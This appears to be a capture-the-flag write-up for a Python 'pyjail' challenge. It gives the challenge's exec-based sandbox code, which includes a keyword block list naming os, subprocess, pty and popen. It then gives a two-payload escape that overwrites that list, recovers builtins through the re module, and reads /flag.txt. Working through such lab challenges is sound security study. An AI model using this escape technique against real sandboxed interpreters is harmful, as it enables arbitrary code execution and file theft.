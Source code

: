 # pyjail

#### Description:
```
Escape me plz.

EU instance: 207.180.200.166 1024

US instance: 45.134.3.200 1024
```
#### Files:
jailbreak.py
```python
#!/usr/bin/env python3

import re
from sys import modules, version

banned = "import|chr|os|sys|system|builtin|exec|eval|subprocess|pty|popen|read|get_data"
search_func = lambda word: re.compile(r"\b({0})\b".format(word), flags=re.IGNORECASE).search

modules.clear()
del modules

def main():
    print(f"{version}\n")
    print("What would you like to say?")
    for _ in range(2):
        text = input('>>> ').lower()
        check = search_func(banned)(''.join(text.split("__")))
        if check:
            print(f"Nope, we ain't letting you use {check.group(0)}!")
            break
        if re.match("^(_?[A-Za-z0-9])*[A-Za-z](_?[A-Za-z0-9])*$", text):
            print("You aren't getting through that easily, come on.")
            break
        else:
            exec(text, {'globals': globals(), '__builtins__': {}}, {'print':print})

if __name__ == "__main__":
    main()
```

#### Auther:
pop_eax & Tango
#### Points and solvers:
At the end of the CTF, 95 teams solved this challenge and it was worth 437 points.

## Solution:
We first read the code carefully, notice we have two payloads to enter the code and we assume that we need to read a file in order to win.   
There are two checks that payload needs to pass, first check makes sure the payload does not contain the words `import`, `chr`, `os` etc. and the second check is quite basic and we can ignore it for now. 
Let's create the first payload with intention to remove the bounderies for the second payload, unlike in C when running an `exec` command we can interact with the variables of the progam, 
this means we can try to overwrite the `banned` or the `search_func` variables. Global python variables are saved in the `globals` dictionary, when printing it (payload = `print(globals)`) we recive:

```python
{'__name__': '__main__', '__doc__': ..., 're': <module 're' from '/Library/Frameworks/Python.framework/Versions/3.6/lib/python3.6/re.py'>, ..., 'banned': 'import|chr|os|sys|system|builtin|exec|eval|subprocess|pty|popen|read|get_data', 'search_func': ...}
```

Lets indeed overwrite `banned`: payload = `globals['banned'] = 'string_we_are_never_going_to_use'`, when printing again we get:

```python
{'__name__': '__main__', '__doc__': ..., 're': <module 're' from '/Library/Frameworks/Python.framework/Versions/3.6/lib/python3.6/re.py'>, ..., 'banned': 'string_we_are_never_going_to_use', 'search_func': ...}
```

Great! The second payload [can be whatever we want](https://i.imgur.com/pEq5Ohz.jpg) it to be.   
Now for the second payload. We cannot use `open` since the `open` function is part of the python `__builtins__`, a function that is built in in the laguage, and when running `exec` with `'__builtins__': {}` all of our built in function s were removed.
So what next? After a quick google search "How to restore builtins" you will arrive to [this stackoverflow answer](https://stackoverflow.com/a/25824045/7501501) that says that each python module contains builtin for itself! 
In the globals we see we can access the `re module` lets try to use the open function from this module's builtins:   
second payload = `print(globals['re'].__builtins__['open'])`

```python
<built-in function open>
```

Once again, success, now we can use any builtin function we want, even importing other modules: `globals['re'].__builtins__['__import__']('os')`, after messing around with `os` to find the flag in the file system we find that the path is `/flag.txt`, let's print it:

payload 1: `globals['banned'] = 'string_we_are_never_going_to_use'`   
payload 2: `__builtins__ = globals['re'].__builtins__; print(__builtins__['open']('/flag.txt', 'rb').read());`

### Flag:
`flag{l3t's_try_sc0p1ng_th1s_0ne_2390098}`
